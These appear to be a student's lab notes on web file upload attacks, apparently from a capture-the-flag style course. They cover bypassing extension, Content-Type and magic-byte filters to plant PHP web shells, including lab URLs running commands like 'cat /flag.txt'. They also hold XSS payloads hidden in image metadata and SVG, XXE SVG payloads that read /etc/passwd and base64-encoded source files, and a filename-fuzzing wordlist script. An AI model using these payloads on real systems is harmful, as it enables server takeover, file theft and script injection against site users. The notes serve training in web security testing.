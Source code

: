 
## Filter Types
### Client-Side Validation

You get "Only Images Are Allowed!"
examine the code: 
```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```
```html
<img src="/profile_images/shell.php" class="profile-image" id="profile-image">
```
submit as shell.jpg; intercept with Burp and change to shell.jpg.php or shell.php
### Backend Validation
#### Blacklist Filters
Fuzz for allowed extensions
#### Whitelist Filters
##### Double Extensions
image.php.jpg
##### Reverse Double Extensions
image.php.jpg
##### Character Injection
See script below
### Type Filters

#### Content-Type & File Content Filter Detection
If we change the file name to `shell.jpg.phtml` or `shell.php.jpg`, or even if we use `shell.jpg` with a web shell content, our upload will fail. As the file extension does not affect the error message, the web application must be testing the file content for type validation. As mentioned earlier, this can be either in the `Content-Type Header` or the `File Content`.

#### Content-Type
See Content Type below for wordlists

**Note:** A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as `POST` data), in which case we will need to modify the main Content-Type header.

#### File Content
```shell-session
echo "GIF8" > shell.jpg 
```

Magic Bites
https://opensource.apple.com/source/file/file-23/file/magic/magic.mime

File Signatures
https://en.wikipedia.org/wiki/List_of_file_signatures

We can use a combination of the two methods discussed in this section, which may help us bypass some more robust content filters. For example, we can try using an `Allowed MIME type with a disallowed Content-Type`, an `Allowed MIME/Content-Type with a disallowed extension`, or a `Disallowed MIME/Content-Type with an allowed extension`, and so on. Similarly, we can attempt other combinations and permutations to try to confuse the web server, and depending on the level of code security, we may be able to bypass various filters.

Example
http://83.136.255.40:58591/profile_images/shell.phtml.png.phtml?cmd=ls

Original request
![[Pasted image 20240819094047.png]]

Edit request
![[Pasted image 20240819094015.png]]
## Other File Upload Attacks

### Limited File Uploads

Display Image metadata after upload

```shell-session
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

We can see that the `Comment` parameter was updated to our XSS payload. When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack. Furthermore, if we change the image's MIME-Type to `text/html`, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.

SVG for XSS attack

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
Once we upload the image to the web application, the XSS payload will be triggered whenever the image is displayed.


SVG Payloads for XXE exploitation

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (`/etc/passwd`) printed on the page or shown in the page source. Similarly, if the web application allows the upload of `XML` documents, then the same payload can carry the same attack when the XML data is displayed on the web application.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

Once the SVG image is displayed, we should get the base64 encoded content of `index.php`, which we can decode to read the source code.

**NOTE** you can also save these XXE payloads at .jpeg and they still work 🙂
### Other


## Identify allowed file types
```shell-session
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/Web/content-type.txt

cat content-type.txt | grep 'image/' > image-content-types.txt
```

## Filter Bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

`ls /usr/share/wordlists/seclists/Web-Shells`

## Creating a wordlist

```bash
#!/bin/sh
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
#modify these extensions for whatever file type you need to test for
    for ext in '.php' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.jpg" >> filenames_wordlist.txt
        echo "shell$ext$char.jpg" >> filenames_wordlist.txt
        echo "shell.jpg$char$ext" >> filenames_wordlist.txt
        echo "shell.jpg$ext$char" >> filenames_wordlist.txt
    done
done
```

## REMEMBER!
disable Payload encoding when using Burp intruder
![[Pasted image 20240817194735.png]]

## File Upload Mindmap

https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Upload%20Insecure%20Files/Images/file-upload-mindmap.png

**FYI** Reverse Double Extension vulnerability
You don't always have to get rid of the image extension
example: `http://94.237.59.199:51091/profile_images/shell.phar.jpg?cmd=cat+/flag.txt`

## Content Type 

https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt

```shell-session
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Miscellaneous/Web/content-type.txt
cat content-type.txt | grep 'image/' > image-content-types.txt
```




